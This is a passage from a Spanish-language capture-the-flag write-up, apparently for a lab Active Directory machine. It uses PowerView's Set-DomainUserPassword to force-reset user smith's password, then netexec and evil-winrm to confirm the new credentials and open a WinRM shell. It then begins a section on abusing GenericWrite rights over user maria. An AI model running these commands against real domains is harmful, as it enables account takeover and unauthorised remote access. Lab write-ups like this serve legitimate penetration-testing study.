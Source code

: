 A través de la variable _$UserPassword_ crearemos una SecureString de la contraseña que le asignaremos al usuario (smith@object.local).

Mediante la función _Set-DomainUserPassword_ procederemos a cambiarle la contraseña al usuario (smith).

```powershell
$UserPassword = ConvertTo-SecureString 'Password01!' -AsPlainText -Force

Set-DomainUserPassword -Identity smith -AccountPassword $UserPassword
```

<figure><img src="../../../.gitbook/assets/3146_vmware_7Pw6eZ0Tpq.png" alt=""><figcaption></figcaption></figure>

Verificaremos a través de _**netexec**_ de que las credenciales se han modificado correctamente y también procederemos a conectarnos al WinRM con estas nuevas credenciales obtenidas.

```bash
netexec winrm 10.10.11.132 -u 'smith' -p 'Password01!'

evil-winrm -i 10.10.11.132 -u 'smith' -p 'Password01!'
```

<figure><img src="../../../.gitbook/assets/3148_vmware_4wkfx43cWQ.png" alt=""><figcaption></figcaption></figure>

### Abusing GenericWrite privileges (Set-DomainObject - Setting Script Logon Path on a user) - Shell as maria

Volviendo a enumerar desde BloodHound, verificamos que el usuario que disponemos actualmente (smith@object.local) dispone de privilegios _**GenericWrite**_ sobre el usuario (maria@object.local).

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Revisando la información sobre el permiso que nos indica BloodHound, verificamos que este acceso otorga la capacidad de escribir en cualquier atributo no protegido en el objeto de destino, incluidos los "miembros" de un grupo y los _servicePrincipalName_ de un usuario.
